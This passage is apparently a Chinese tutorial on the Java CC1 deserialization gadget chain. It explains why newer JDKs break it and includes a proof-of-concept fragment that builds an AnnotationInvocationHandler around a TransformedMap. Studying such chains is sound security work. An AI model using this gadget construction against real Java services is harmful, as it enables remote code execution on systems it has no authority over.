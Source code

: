```java
            annotationType = AnnotationType.getInstance(t);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        // consistent with runtime Map type
        Map<String, Object> mv = new LinkedHashMap<>();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : streamVals.entrySet()) {
            String name = memberValue.getKey();
            Object value = null;
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    value = new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name));
                }
            }
            mv.put(name, value);
        }

        UnsafeAccessor.setType(this, t);
        UnsafeAccessor.setMemberValues(this, mv);
    }
```

上面的代码是java高版本，这也导致后面无法使用的原因

因为不再直接 使⽤反序列化得到的Map对象，⽽是新建了⼀个 LinkedHashMap 对象，并将原来的键值添加进去。（回溯mv即可发现）：

![1](/img/298.png)

原本这里存在`Map.Entry<String, Object> memberValue : streamVals.entrySet()`和`memberValue.setValue(...) `

memberValues 就是反序列化后得到的 Map ，也是经过了 TransformedMap 修饰的对象，这⾥遍历了它 的所有元素，并依次设置值。再通过调⽤ setValue 设置值的时候就会触发 TransformedMap ⾥注册的 Transform ，即可执行恶意类

所以我们在POC中需要加入一个 AnnotationInvocationHandler 类，再把前面构造的 HashMap 设置进来，

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);
```
